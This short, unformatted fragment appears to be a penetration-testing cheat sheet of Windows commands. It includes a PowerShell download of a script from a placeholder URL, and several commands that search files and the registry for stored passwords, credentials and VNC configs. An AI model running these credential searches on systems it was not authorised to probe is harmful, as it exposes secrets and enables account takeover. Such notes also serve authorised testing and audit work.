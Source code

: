 TO FORMAT


echo $Env:PSModulePath

Invoke-WebRequest http://url-to/file.ps1 -OutFile C:\path\to\file.ps1

dir /s \*pass\* == \*cred\* == \*vnc\* == \*.config\*
findstr /si password \*.xml \*.ini \*.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
